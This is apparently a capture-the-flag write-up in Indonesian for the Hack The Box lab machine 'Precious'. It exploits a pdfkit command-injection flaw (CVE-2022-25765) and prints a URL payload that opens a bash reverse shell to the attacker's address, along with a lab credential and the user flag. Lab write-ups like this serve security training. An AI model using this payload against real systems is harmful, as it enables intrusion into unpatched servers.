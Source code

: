 # Precious 
**SOLVED : JAN 11 | 2023**
![Precious](https://user-images.githubusercontent.com/92077284/211991670-4b07aee9-b558-4b25-9b42-47e17659e981.png)

## Information Gathering
![image](https://user-images.githubusercontent.com/92077284/213347545-adaa6f23-5523-436a-a37d-9aa5c28a627a.png)  
![image](https://user-images.githubusercontent.com/92077284/211992854-535f66c3-a172-4997-9d7d-82a58bb42449.png)  
Pertama - tama lakukan proses **nmap** pada ip yang sudah diberikan pada web htb, hal ini berfungsi untuk memeriksa layanan yang tersedia dalam jaringan  
Didapati ada 2 port, yaitu port **22 dan 80**, serta alamat web yaitu precious.htb  
Disini disimpulkan bahwa **port 22** untuk akses ssh, dan **port 80** adalah penyedia webnya  
Untuk mengakses precious.htb diperlukan command `sudo vim /etc/hosts` untuk menambahkan `10.10.11.189 precious.htb`  
![image](https://user-images.githubusercontent.com/92077284/211993812-b3068588-4e9d-408d-af3d-45356d7fba78.png)  
Masuk ke **10.10.11.189**  
![image](https://user-images.githubusercontent.com/92077284/211994354-6a6245cb-f01b-4bde-8634-d19b03e707eb.png)  
Apabila dicoba isi 'http://google.com' maka akan menunjukan tampilan seperti ini, karena tertulis _Cannot load remote URL!_ maka saya coba untuk _serving http server_  
![image](https://user-images.githubusercontent.com/92077284/211995365-debd1424-dd52-41d1-a55e-4d5855cc7e37.png)
disini akan dilakukan hosting pada port 80 dengan ip yang sesuai dengan ip di **tun0**, agar nantinya dapat ditangkap oleh website  
![image](https://user-images.githubusercontent.com/92077284/211996025-da71de3e-fdf1-44f5-9b52-be06a30c0176.png)  
![image](https://user-images.githubusercontent.com/92077284/213347427-0cbe2aeb-7399-44cc-9ece-ac74a25d8131.png)  
Lalu coba masukan 'http://10.10.14.30:80' ke dalam website  
![image](https://user-images.githubusercontent.com/92077284/211996453-a4bd650a-8551-4b1d-bd86-c485a273c7d7.png)  
Didapati file pdf sebagai berikut, yang bila dibuka akan menampilkan list directory di tempat _serving http server_  
![image](https://user-images.githubusercontent.com/92077284/211996521-9d32d634-253e-4ae5-b2f6-144b1ce999dc.png)  
![image](https://user-images.githubusercontent.com/92077284/213354581-a64b7b8a-5786-406b-b3fa-3ae0ca537556.png)  
Setelah itu analisa file pdf menggunakan **exiftool**, file di analisa menggunakan tool ini karena saya ingin mengetahui meta data dari file atau ada hal yang mencurigakan dari file.   
![image](https://user-images.githubusercontent.com/92077284/211996948-fb392098-7706-4054-8e85-0d6e1068d64f.png)  
Disini saya memanfaatkan **pdfkit v0.8.6** sebagai celah untuk masuk kedalam sistem, pdfkit adalah _PDF document generation library_ untuk browser, yang fungsinya memudahkan browser membuat file, namun pada versi ini terdapat celah kerentanan dimana kita dapat melakukan _Command Injection_ karena URL tidak di sanitasi.  

**CVE-2022–25765** Source: https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795  
Dari situ dapat dibuat sebuah _reverse shell_ dengan bantuan **Hack-Tools**  
**Hack-Tools** = https://chrome.google.com/webstore/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi  
![image](https://user-images.githubusercontent.com/92077284/213356703-8097f1a2-5a5f-498d-9ece-69cbb88491eb.png)  

```
http://example.com/?name=#{'%20`sleep 5`'}
http://example.com/?name=#{'%20``'}
```
menjadi   
```
http://example.com/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.30/443 <&1'`'}
```
Untuk memulai tahapannya, pertama coba untuk _listen_ pada port 443  
![image](https://user-images.githubusercontent.com/92077284/213357167-d793b9f5-d2eb-4dfc-b7f7-adae4d6ca264.png)  
lalu buat _payload_ dan masukan kedalam website, untuk melakukan _command injection_  
```
http://example.com/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.30/443 <&1'`'}
```
![image](https://user-images.githubusercontent.com/92077284/213357672-62b90aeb-1762-418d-9e22-edc9fa001afb.png)  
lalu aktivitas akan terekam pada terminal yang tadi  
![image](https://user-images.githubusercontent.com/92077284/213358242-9cd66e8b-48e6-4f71-a2b9-86420ffc9b8b.png)  
_Note : IP berbeda karena WU dibuat pada hari berbeda_  

Karena sudah masuk, maka disini akan dilakukan pencarian **flag**  
Yang saya lakukan pertama adalah masuk ke directory awal  
![image](https://user-images.githubusercontent.com/92077284/213358684-a63b2268-5d14-4eef-ad78-9a6dba781803.png)  
lalu disini saya memutuskan untuk masuk ke directory **home** karena biasanya user akan disimpan pada directory ini  
![image](https://user-images.githubusercontent.com/92077284/213358862-5dbc5421-0c27-4afe-b2af-ae987b8e7fea.png)  
Ditemukan 2 user , yaitu **henry** dan **ruby**, disini saya mencoba masuk ke **henry**, namun ada keterbatasan akses
setelah itu saya mencoba untuk masuk ke **ruby**
![image](https://user-images.githubusercontent.com/92077284/213359072-53bf1b90-981f-44d6-b171-b49d3ba1d2c5.png)  
Disini awalnya saya melihat apa saja yang ada dalam direcotry ini, lalu setelah mencoba-coba, ternyat directory **.bundle** dapat diakses, dan ternyata menampung kredensial dari **henry**

Kredensial henry : `henry:Q3c1AqGHtoI0aXAYFH`  

Setelah itu saya masuk ke akun henry menggunakan *ssh*  
![image](https://user-images.githubusercontent.com/92077284/213359292-7cf62917-2301-4c03-95e2-779249e58a0c.png)  
setelah itu ternyata sudah bisa diakses untuk **user.txt**, dan disini juga sekaligus menjadi **FLAG USER**
![image](https://user-images.githubusercontent.com/92077284/213359417-af9dc795-4d34-4037-a835-8257176cc76c.png)

**FLAG USER** = `a13c7cb8903ad65d586d143f089a7d31`




## a
## a
## a
## a
